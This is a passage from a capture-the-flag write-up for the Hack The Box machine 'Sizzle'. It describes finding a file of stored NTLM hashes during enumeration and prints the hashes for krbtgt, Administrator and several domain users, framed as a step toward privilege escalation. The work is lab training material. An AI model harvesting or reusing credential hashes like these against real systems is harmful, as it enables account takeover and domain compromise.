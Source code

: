 ![](/images/hackthebox/sizzle/26.png)
<hr>
## Stored NTLM Hashes, Secretsdump, Privilege Escalation
<br> Through the filesystem enumeration I found a file called `file.txt` in `C:\Windows\System32`. That file had NTLM hashes for all users ! 
![](/images/hackthebox/sizzle/27.png)
```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::

Domain    User  ID  Hash
------    ----  --  ----
HTB.LOCAL Guest 501 -   
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrb3n:1105:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
```